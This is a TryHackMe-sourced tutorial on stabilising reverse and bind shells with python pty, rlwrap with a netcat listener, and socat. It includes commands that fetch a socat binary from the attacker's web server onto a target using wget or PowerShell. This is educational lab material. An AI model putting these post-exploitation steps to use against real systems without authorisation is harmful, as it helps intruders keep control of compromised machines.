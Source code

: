 ### Technique 1 : python

<BR>The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

1. The first thing to do is use python -c 'import pty;pty.spawn("/bin/bash")', which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.<BR>
2. Step two is: export TERM=xterm -- this will give us access to term commands such as clear.<BR>
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.<BR>

### Technique 2 : rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with <BR><b>sudo apt install rlwrap</b>.

To use rlwrap, we invoke a slightly different listener:
<br><b>rlwrap nc -lvnp <port></b>

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use <b>stty raw -echo; fg</b> to stabilise and re-enter the shell.<BR>
  
### Technique 3 : Socat
  The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (<b>sudo python3 -m http.server 80</b>), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (<b>wget <LOCAL-IP>/socat -O /tmp/socat</b>).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (<b>Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe</b>). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.
  
### Dernière astuce 
  
With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

  First, open another terminal and run <b>stty -a</b>. This will give you a large stream of output. Note down the values for "rows" and columns:



Next, in your reverse/bind shell, type in:

  <b>stty rows <number></b>

and

    <b>stty cols <number></b>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.
  
  Source : Tryhackme

